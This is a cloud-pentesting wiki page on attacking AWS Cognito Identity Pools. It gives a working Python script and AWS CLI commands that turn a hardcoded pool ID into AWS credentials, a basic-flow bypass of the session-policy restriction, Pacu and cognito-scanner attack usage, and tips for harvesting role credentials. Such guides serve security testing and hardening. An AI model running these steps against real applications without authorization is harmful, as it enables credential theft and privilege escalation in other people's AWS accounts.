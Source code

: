 # Cognito Identity Pools

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

## Basic Information

Identity pools serve a crucial role by enabling your users to **acquire temporary credentials**. These credentials are essential for accessing various AWS services, including but not limited to Amazon S3 and DynamoDB. A notable feature of identity pools is their support for both anonymous guest users and a range of identity providers for user authentication. The supported identity providers include:

- Amazon Cognito user pools
- Social sign-in options such as Facebook, Google, Login with Amazon, and Sign in with Apple
- Providers compliant with OpenID Connect (OIDC)
- SAML (Security Assertion Markup Language) identity providers
- Developer authenticated identities

```python
# Sample code to demonstrate how to integrate an identity provider with an identity pool can be structured as follows:
import boto3

# Initialize the Amazon Cognito Identity client
client = boto3.client('cognito-identity')

# Assume you have already created an identity pool and obtained the IdentityPoolId
identity_pool_id = 'your-identity-pool-id'

# Add an identity provider to the identity pool
response = client.set_identity_pool_roles(
    IdentityPoolId=identity_pool_id,
    Roles={
        'authenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/AuthenticatedRole',
        'unauthenticated': 'arn:aws:iam::AWS_ACCOUNT_ID:role/UnauthenticatedRole',
    }
)

# Print the response from AWS
print(response)
```

### Cognito Sync

To generate Identity Pool sessions, you first need to **generate and Identity ID**. This Identity ID is the **identification of the session of that user**. These identifications can have up to 20 datasets that can store up to 1MB of key-value pairs.

This is **useful to keep information of a user** (who will be always using the same Identity ID).

Moreover, the service **cognito-sync** is the service that allow to **manage and syncronize this information** (in the datasets, sending info in streams and SNSs msgs...).

### Tools for pentesting

* [Pacu](https://github.com/RhinoSecurityLabs/pacu), the AWS exploitation framework, now includes the "cognito\_\_enum" and "cognito\_\_attack" modules that automate enumeration of all Cognito assets in an account and flag weak configurations, user attributes used for access control, etc., and also automate user creation (including MFA support) and privilege escalation based on modifiable custom attributes, usable identity pool credentials, assumable roles in id tokens, etc.

For a description of the modules' functions see part 2 of the [blog post](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2). For installation instructions see the main [Pacu](https://github.com/RhinoSecurityLabs/pacu) page.

#### Usage

Sample cognito\_\_attack usage to attempt user creation and all privesc vectors against a given identity pool and user pool client:

```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools 
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients 
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```

Sample cognito\_\_enum usage to gather all user pools, user pool clients, identity pools, users, etc. visible in the current AWS account:

```bash
Pacu (new:test) > run cognito__enum
```

* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) is a CLI tool in python that implements different attacks on Cognito including unwanted account creation and identity pool escalation.

#### Installation

```bash
$ pip install cognito-scanner
```

#### Usage

```bash
$ cognito-scanner --help
```

For more information check https://github.com/padok-team/cognito-scanner

## Accessing IAM Roles

### Unauthenticated

The only thing an attacker need to know to **get AWS credentials** in a Cognito app as unauthenticated user is the **Identity Pool ID**, and this **ID must be hardcoded** in the web/mobile **application** for it to use it. An ID looks like this: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (it's not bruteforceable).

{% hint style="success" %}
The **IAM Cognito unathenticated role created via is called** by default `Cognito_<Identity Pool name>Unauth_Role`
{% endhint %}

If you find an Identity Pools ID hardcoded and it allows unauthenticated users, you can get AWS credentials with:

```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
    print(f"Not valid id: {id_pool_id}")
    exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```

Or you could use the following **aws cli commands**:

```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```

{% hint style="warning" %}
Note that by default an unauthenticated cognito **user CANNOT have any permission, even if it was assigned via a policy**. Check the followin section.
{% endhint %}

### Enhanced vs Basic Authentication flow

The previous section followed the **default enhanced authentication flow**. This flow sets a **restrictive** [**session policy**](../../aws-basic-information/#session-policies) to the IAM role session generated. This policy will only allow the session to [**use the services from this list**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (even if the role had access to other services).

However, there is a way to bypass this, if the **Identity pool has "Basic (Classic) Flow" enabled**, the user will be able to obtain a session using that flow which **won't have that restrictive session policy**.

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
If you receive this **error**, it's because the **basic flow is not enabled (default)**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

Having a set of IAM credentials you should check [which access you have](../../#whoami) and try to [escalate privileges](../../aws-privilege-escalation/).

### Authenticated

{% hint style="info" %}
Remember that **authenticated users** will be probably granted **different permissions**, so if you can **sign up inside the app**, try doing that and get the new credentials.
{% endhint %}

There could also be **roles** available for **authenticated users accessing the Identity Poo**l.

For this you might need to have access to the **identity provider**. If that is a **Cognito User Pool**, maybe you can abuse the default behaviour and **create a new user yourself**.

{% hint style="success" %}
The **IAM Cognito athenticated role created via is called** by default `Cognito_<Identity Pool name>Auth_Role`
{% endhint %}

Anyway, the **following example** expects that you have already logged in inside a **Cognito User Pool** used to access the Identity Pool (don't forget that other types of identity providers could also be configured).

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
    --identity-pool-id &#x3C;identity_pool_id> \
    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# Get the identity_id from the previous commnad response
aws cognito-identity get-credentials-for-identity \
    --identity-id &#x3C;identity_id> \
    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# In the IdToken you can find roles a user has access because of User Pool Groups
# User the --custom-role-arn to get credentials to a specific role
aws cognito-identity get-credentials-for-identity \
    --identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
It's possible to **configure different IAM roles depending on the identity provide**r the user is being logged in or even just depending **on the user** (using claims). Therefore, if you have access to different users through the same or different providers, if might be **worth it to login and access the IAM roles of all of them**.
{% endhint %}

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.khulnasoft.com/courses/arte"><strong>htARTE (ByteBreach AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support ByteBreach:

* If you want to see your **company advertised in ByteBreach** or **download ByteBreach in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/khulnasoft)!
* Get the [**official PEASS & ByteBreach swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@bytebreach_live**](https://twitter.com/bytebreach_live)**.**
* **Share your hacking tricks by submitting PRs to the** [**ByteBreach**](https://github.com/khulnasoft/bytebreach) and [**ByteBreach Cloud**](https://github.com/khulnasoft/bytebreach-cloud) github repos.

</details>

